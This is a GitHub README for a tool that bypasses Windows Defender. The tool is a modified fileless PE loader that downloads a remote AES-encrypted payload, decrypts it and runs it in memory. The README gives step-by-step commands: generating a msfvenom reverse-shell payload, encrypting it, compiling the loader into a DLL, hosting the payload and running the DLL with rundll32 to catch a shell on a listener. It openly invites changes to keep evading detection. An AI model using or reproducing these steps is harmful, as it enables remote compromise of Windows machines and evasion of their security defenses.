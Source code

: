 # Windows-Defender-Bypass

Tested on 31-07-2023.  [Defender may detect it at the time of you using this. Feel free to do any modifications.]



[<img src="https://alta-ict.nl/wp-content/uploads/2021/07/microsoft-defender-1024x576.png" width="600" height="300"
/>](https://youtu.be/P06Pmuvj6J4)

This is a modified version of @TheD1rkMtr's FilelessPELoader program. The link to the original repo is https://github.com/TheD1rkMtr/FilelessPELoader/. 
It works by loading Remote AES Encrypted PE in memory, decrypts it and run it.


STEPS TO REPRODUCE:
1. Clone the repository.

2. Edit the IP , port in FilelessPELoader.cpp script.

3. Use the aes.py script to create encrypted bin files.

   In the POC, I generated the reverse shell payload using msfvenom and encrypted it using aes.py. The syntax for the same is

```msfvenom -p windows/x64/shell_reverse_tcp lhost=IP lport=PORT -f exe -o shell.exe```

```python3 aes.py shell.exe```

Successfull execution of the above command will create two files named cipher.bin and key.bin. [ If you rename these files, make sure to change the names in FilelessPELoader.cpp file as well ]

4. Use the following command to compile FilelessPELoader.cpp to a dll.
```x86_64-w64-mingw32-g++ FilelessPELoader.cpp -l winhttp -shared --static -o a.dll```

5.Once dll is created, start the web server and your listener.

6. Transfer the dll to a windows machine.


https://github.com/Dharani-sanjaiy/Windows-Defender-Bypass/assets/72503981/39c6bada-72d8-4a2a-a470-bf498a4d18cd


7. Open command prompt and run the following command.

```rundll32 a.dll, DllRegistryServer```

8. After a second, You will see the connection in your terminal where you started your listener.
